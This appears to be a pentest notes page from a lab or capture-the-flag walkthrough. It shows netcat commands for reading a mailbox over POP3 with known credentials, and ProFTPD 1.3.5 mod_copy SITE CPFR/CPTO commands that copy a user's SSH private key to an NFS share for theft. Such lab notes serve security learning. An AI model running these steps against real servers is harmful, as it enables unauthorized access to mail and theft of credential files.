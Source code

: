 ### pop3 / imap (110,143) cmds

Once we have valid mail credentials we can use netcat to view users mailbox.

```
nc $ip 110 # to login.
USER <username> # enter username.
PASS <passw> # enter user password.
LIST # view user imbox.
RETR 1 # view each mail with id, 1 or 2 or 3 etc...
```

### proftpd 1.3.5 exploit

{% code overflow="wrap" lineNumbers="true" %}
```bash
# the proftpd 1.3.5 is vulnerable to some file copy exploit.
# when we do a "searchsploit proftpd 1.3.5" we get a "<mod_copy>" exploit.
# The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

# assuming we have access to an NFS share ie, /var, we can copy files if we have enough privileges for example a user .ssh file. 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (142).png" alt="" width="201"><figcaption><p>1</p></figcaption></figure>

And given that we have access to an NFS share: ![](<.gitbook/assets/image (143).png>)

We can copy this ssh key to the NFS share, mount it on our kali and access it, using the proftpd 1.3.5 vuln.

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc 10.10.70.109 21 # to connect to ftp.
SITE CPFR /home/kenobi/.ssh/id_rsa # file to copy.
SITE CPTO /var/tmp/id_rsa # copy to NFS /var share.
# now, mount the share and access the ssh key.
```
{% endcode %}

